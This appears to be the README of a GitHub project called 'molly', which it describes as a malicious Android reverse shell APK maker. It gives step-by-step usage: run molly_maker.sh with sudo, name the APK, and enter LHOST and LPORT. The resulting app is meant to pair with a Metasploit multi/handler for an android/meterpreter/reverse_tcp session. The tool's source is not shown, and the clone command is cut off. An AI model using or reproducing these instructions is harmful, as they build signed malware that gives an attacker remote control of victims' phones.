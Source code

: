 # molly
Malicious Android reverse shell APK maker. automatic, and signed through tools found on kali linux

git 

cd molly

chmod +x molly_maker.sh

sudo ./molly_maker.sh

once ran, input name for APK but DO NOT ADD EXTENSION

after name input, then you will input LHOST, and LPORT

use this with metasploit multi/handler for meterpreter android/meterpreter/reverse_tcp exploit
